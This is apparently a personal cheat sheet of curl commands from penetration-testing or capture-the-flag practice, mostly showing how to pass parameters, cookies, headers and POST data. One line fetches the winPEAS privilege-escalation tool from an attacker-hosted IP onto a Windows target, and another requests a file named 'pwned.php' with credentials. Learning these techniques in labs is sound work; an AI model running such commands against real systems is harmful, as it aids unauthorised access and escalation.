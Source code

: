 ### 26-Sep-23 Tue

```
C:\>curl url?parameter=value
```

```
curl url?parameter=value
```

```
C:\>curl "url" --cookie key=please
```

```
curl url -H 'Cookie: key=please'
```

```
curl 'url' -H 'Content-Type: key/please'
```

```
curl -v 'url' -H 'Content-Type: key/please'
```

```
curl -v url -X POST --data 'parameter=value'
```

```
curl -v url -X POST
```

```
curl -v url -X POST --data ''
```

```
curl -v 'url?parameter1=value1&parameter2=value2'
```

```
curl -v url -X POST --data 'parameter1=value1&parameter2=value2'
```

```
curl -v 'url?arrayname[0]=value1&arrayname[1]=value2'
```

```
curl -v $ip
```

```
curl 10.10.16.20:8000/winPEASany_ofs.exe -o C:/Users/Public/win.exe
```

### 2024-05-12-Sun

```
curl --user $username:$password $ip:$port/pwned.php
```

